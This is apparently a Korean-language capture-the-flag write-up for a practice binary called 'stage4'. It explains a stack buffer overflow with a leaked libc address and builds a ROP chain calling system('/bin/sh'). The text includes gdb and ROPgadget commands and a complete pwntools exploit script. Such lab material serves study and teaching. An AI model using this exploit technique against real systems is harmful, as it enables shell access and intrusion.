







> `read()` 오버플로우(NX 때문에 셸코드 실행 불가) → **ROP 체인**으로 `system("/bin/sh")` 호출. libc는 **유출(&read)로 주소 계산**. → 셸 획득
> 

---

## 0. 셸 문제 해결

Ch2에서 주입했던 셸을 Ch4까지 끌고와서 사용하려니, 계속해서 셸이 중첩되어 사용에 불편함이 컸다.

이게 아무래도 파이프에 물린 TTY가 없는 셸이다 보니, 불편함은 계속됐다. (vi 같은 편집기를 사용하지도 못하고, 페이로드 입력이 끝나면 EOF로 셸이 죽어버리거나 입력할 때 화면에 겹쳐 그려지는 노이즈도 너무 심함…)

이 문제를 해결하기 위해 ch2 익스플로잇 코드를 stdin=PTY 기반으로 수정하였다. 하지만, 해결이 되지 않아 헤매다가 깃허브 페이지에서 우연히 커스텀 명령어 status를 발견했고, status 사용을 통해 이중셸 문제를 해결할 수 있었다.

(ch.2 라이트업 > 부록 참고[ch2.라이트업 링크 걸기])

---

## 1. 대상 분석

### 1-1. 코드 분석

```c
int main(){
    int select;
    char buf[0x40] = {};             // 64바이트 버퍼
    ...
    scanf("%d", &select);
    else if(select == 2){
        printf("Address of freezer warehouse : %p\n", &read);  // ← libc 유출
        read(0, buf, 0x400);         // ← buf 크기보다 많이 읽으므로 오버플로우 공격 가능
    }
    write(1, buf, sizeof(buf));
    return 0;
}

char MasterKey[16] = "/bin/sh";      // ← "/bin/sh" 문자열이 존재
void gadget(){                        // ← ROP 가젯 모음이 gadget() 로 존재
    asm("pop %rdi; ret");
    asm("pop %rsi; pop %r15; ret");
    asm("pop %rdx; ret");
}
```

- **취약점**: `read(0, buf, 0x400)` — 64바이트 버퍼에 1024바이트 → 스택 오버플로우. (2번 메뉴를 선택해야 한다.)
- `gadget()` - `pop rdi; ret` 같은 ROP 가젯 존재
- `MasterKey` - `/bin/sh` 문자열 존재
- `&read` 유출 - libc의 실제 위치를 알려줌 (ASLR 우회용).

### 1-2. 보호기법 (checksec)



**64bit 환경 +** **NX라 셸코드 실행 불가 + No PIE라 바이너리 주소 고정 + libc 유출 있음**

---

## 2. 익스플로잇 아이디어

### ROP gadget Chain

**NX가 켜져 있으므로 스택에 올린 셸코드를 실행 못 한다** (Ch.2 방식 불가). 그래서 코드를 넣는 대신 **이미 있는 코드 조각(가젯)을 이어붙여** 원하는 동작을 만든다(ROP Chain). 

> 
> 
> - **가젯**
>     - `pop rdi; ret`처럼 짧게 동작하고 `ret`으로 끝나는 코드 조각.
> - **ROP 원리**
>     - 스택에 `[가젯주소][값][다음 가젯주소] …`를 쌓아두면, `ret`이 스택에서 **다음 주소를 꺼내 점프 → 가젯 실행 → 그 가젯 끝의 `ret`이 또 다음 주소로 점프…** 이렇게 가젯을 **이어서** 실행한다.
> - **ROP 사용 이유**
>     
>     NX가 켜지면 **스택의 코드를 실행할 수 없어** 스택에 넣은 쉘코드 실행이 막힌다. 그래서 **이미 실행 가능한 영역(libc/.text)의 코드 조각을 재사용**하는 것이 ROP다.
>     
>     → 스택엔 **”실행할 코드"가 아니라 "점프할 주소(데이터)**"만 올리고, 실제 실행은 libc/.text에서 일어나므로 **NX 영향을 받지 않는다**(스택은 `ret`·함수가 데이터로 읽을 뿐이다)**.** 
>     
> - **32비트 vs 64비트**
>     
>     함수를 호출하려면 인자를 넘겨야 하는데, 환경 별로 방식이 다르다:
>     
>     - **32비트**: 인자를 **스택**으로 넘긴다 → `[함수주소][리턴주소][인자]`를 쌓으면 함수가 알아서 읽는다. **인자용 가젯이 불필요하다.**
>     - **64비트**: 인자를 **레지스터**로 넘긴다(rdi=1번째). `system("/bin/sh")`를 부르려면 rdi에 `"/bin/sh"` 주소를 넣어야 하고, 스택의 값을 rdi에 옮기는 **`pop rdi; ret` 가젯이 필요**하다.

### 전체 계획

```
1) 메뉴 2 선택 →  유출된 &read 확인
2) libc_base = 유출된_read - (libc의 read 오프셋)
   system    = libc_base + (libc의 system 오프셋)
3) read() 오버플로우로 리턴 주소부터 ROP Chain:
     [ 패딩 ]
     [ pop rdi; ret ]
     [ MasterKey("/bin/sh") ]
     [ ret (정렬용) ]
     [ system ]
4) → system("/bin/sh") → 셸 획득
```

> **ret 중간에 껴 넣은 이유**
64비트는 `call` 시점에 rsp가 **16의 배수**여야 하는데, `system` 내부 `movaps`가 정렬 안 맞으면 크래시한다. ROP는 8바이트 단위라 rsp가 **16의 배수에서 8 어긋나기(예: 24) 쉽다.** 그래서 하는 일 없는 `ret` 하나를 끼워 **rsp를 8 밀어 24→32처럼 16의 배수로** 되돌린다(32비트엔 불필요).
> 

---

## 3. 필요한 정보 확인

### 3-1. 오프셋 (buf → 리턴 주소) = 88

```python
gdb -q ./stage4
pwndbg> disass main
pwndbg> pipe disass main | grep -iE 'rbp|read|lea'
```



### rbp, read, lea 확인하는 이유

**`lea` → 버퍼가 rbp에서 얼마나 떨어졌나**

```
lea rax,[rbp-0x50]     <- 입력 버퍼가 rbp-0x50 에 있다 (read함수 호출 전)
```

`lea`는 주소 계산이라, **버퍼의 위치(rbp 기준 오프셋)**가 드러난다. 

**`read` → 그 버퍼에 몇 바이트를 쓰나. 오버플로우 지점**

```
call read              -> 버퍼보다 크면 오버플로우
```

**취약한 입력 함수**가 어디서 얼마나 받는지 확인

**`rbp` → 프레임 구조 (리턴주소까지의 거리)**

리턴주소는 **`rbp+8`**(64비트), 저장된 rbp는 **`rbp+0`**. 그래서 **rbp가 기준**이 돼야 **버퍼 → 리턴주소** 오프셋(거리)을 측정할 수 있다.

### 셋을 합치면 오프셋이 나온다

```
버퍼 = rbp-0x50 
리턴주소 = rbp+0x8
→ 버퍼에서 리턴주소까지 = 0x50 + 0x8 = 0x58 = 88바이트
```

> 버퍼 주소가 `lea`가 아니라 **`mov rax, rsp`** 같은 다른 방식으로 잡히면 `lea` 필터에 안 걸린다. disass main 후, 눈대중으로 훑어본 후 깔끔하게 보기 위해 위와같이 진행한 것이다.
> 

### 3-2. pop rdi ; ret 가젯 = 0x401215

rdi(1번째 인자 레지스터)에 값을 넣기 위해 사용할 pop rdi; ret 가젯 주소를 확인한다. ROPgadget을 이용하면 가젯 주소를 아래와 같이 쉽게 구할 수 있다.

```bash
ROPgadget --binary ./stage4 | grep ': pop rdi ; ret'
```



**가젯 주소: 0x401215**

> 
> 
> 
> 아까 전(전체 계획 참조), 정렬용으로 쓰려는 ret를 여기에 위치한 ret로 재탕? 재활용? 할 수 있다.
> 
> ```python
> 0x401215:   5f(1바이트)       pop rdi   ← **점프** → 5f(pop rdi) 실행 → c3(ret) 실행 = **pop rdi; ret 전체**
> 0x401216:   c3(1바이트)       ret       ← **점프** → c3(ret) 하나만 실행 = **ret**
> ```
> 

### 3-3. MasterKey ("/bin/sh") 주소 = 0x404050

rdi에 넣을 `"/bin/sh"` 문자열의 주소는 nm을 사용해, 아래와 같이 쉽게 구할 수 있다. 

```bash
nm ./stage4 | grep -i masterkey
```



D는 data섹션(초기화된 전역변수)을 의미한다. (**MasterKey라는 전역변수가 .data(0x404050)에 있다**는 뜻)



물론 위와같이 objdump -t 로도 확인이 가능하기는 하나, 심볼이 명확하면 nm으로 확인하는게 훨씬 깔끔하다.

### 3-4. libc 경로 = /lib/x86_64-linux-gnu/libc.so.6

`read`/`system`의 오프셋을 얻어, 유출된 &read에서  libc 베이스를 역산하고 system을 계산하기 위해 확인한다.

```bash
ldd ./stage4
```

`ldd` = 이 프로그램이 쓰는 공유 라이브러리 목록 출력



```
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7d8a000)
```

1. **ldd로 ./stage4가 실제로 사용하는 libc 파일"을 확인했다** → `/lib/x86_64-linux-gnu/libc.so.6`. (버전·위치 확인)
2. **그 파일을 그대로 `ELF('/lib/x86_64-linux-gnu/libc.so.6')`로 불러온다** → pwntools가 그 libc의 심볼 테이블을 읽는다.
3. **`libc.sym['read']`, `libc.sym['system']`으로 오프셋을 가져온다** 이것과 read함수 주소를 이용해 libc_base와 system 함수의 주소를 알아낼 수 있다.
    
    ```python
    [libc_base 주소] = [read 함수 주소] - [libc read 함수 오프셋]
    [system 함수 주소] = [libc_base 주소] + [libc system 함수 오프셋]
    
    내가 사용한 exploit 에서는 
    libc.address = leak - libc.sym['read'] 한 줄이 위를 대신하고, 
    그 뒤 libc.sym['system']이 자동으로 “system 실제주소”가 된다.
    ```
    

> 
> 
> 
> #### `libc.sym`는`libc.address`를 더해서 돌려준다
> 
> libc.sym이 돌려주는 값은 항상 **`파일오프셋 + libc.address`** 다.
> 
> - **처음엔 `libc.address = 0`** → `libc.sym['read']`는 **오프셋 그대로** 돌려준다.
> - **`libc.address`를 세팅하면** → pwntools가 **표 전체를 그만큼 밀어서**, 이후 모든 조회가 **오프셋+베이스 = 실제주소**로 바뀐다.

### ROP 체인이 실행되는 그림

```
[ "A"*88 ]       ← 패딩 (리턴 주소 직전까지)
[ 0x401215 ]     ← pop rdi ; ret
[ 0x404050 ]     ← rdi에 들어갈 값 = "/bin/sh"
[ 0x401216 ]     ← ret (스택 16바이트 정렬용, system의 movaps crash 방지)
[ system ]       ← system("/bin/sh")
```

main의 `ret` 순간부터:

1. `0x401215`로 점프 → `pop rdi; ret` → 다음 값 `0x404050`을 rdi에 → rdi="/bin/sh"
2. `ret` → `0x401216`(ret) → 정렬만 하고 넘어감
3. `ret` → `system` → `system("/bin/sh")` 실행 → 셸 획득

---

## 4. Exploit

```python
from pwn import *
context.arch = 'amd64'

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p    = process('./stage4')

# 1) 메뉴 2 → &read 유출
p.sendlineafter(b'Choose the display stand : ', b'2')
p.recvuntil(b'warehouse : ')
leak = int(p.recvline().strip(), 16)
libc.address = leak - libc.sym['read']          # 실제 libc 베이스 확정
log.success('libc base = %#x', libc.address)

# 2) ROP 체인
payload  = b'A'*88
payload += p64(0x401215) + p64(0x404050)        # pop rdi; ret  +  "/bin/sh"
payload += p64(0x401216)                         # ret (정렬)
payload += p64(libc.sym['system'])               # system (유출 기반)

p.sendlineafter(b'Please select the quantity of the item : ', payload)
p.interactive()
```



---
